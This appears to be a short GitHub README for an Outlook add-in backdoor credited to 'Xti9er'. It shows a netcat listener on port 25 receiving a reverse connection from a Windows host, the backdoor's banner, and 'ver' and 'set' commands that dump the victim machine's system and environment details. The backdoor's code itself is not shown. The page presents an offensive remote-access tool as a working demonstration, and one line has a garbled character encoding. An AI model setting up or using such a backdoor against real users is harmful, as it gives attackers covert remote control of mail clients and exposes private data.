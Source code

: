 # OutlookBackDoor_4
Outlook addin Back Door

MacBook-Pro:~ x$ sudo netcat -vlp 25
Connection from 192.168.101.155:49229

			----= OutLook Backdoor v0.1=----
			  By Xti9er
			  
ver

Microsoft Windows [?汾 6.1.7601]
set
ALLUSERSPROFILE=C:\ProgramData
APPDATA=C:\Users\x\AppData\Roaming
CommonProgramFiles=C:\Program Files (x86)\Common Files
CommonProgramFiles(x86)=C:\Program Files (x86)\Common Files
CommonProgramW6432=C:\Program Files\Common Files
COMPUTERNAME=X-PC
ComSpec=C:\Windows\system32\cmd.exe
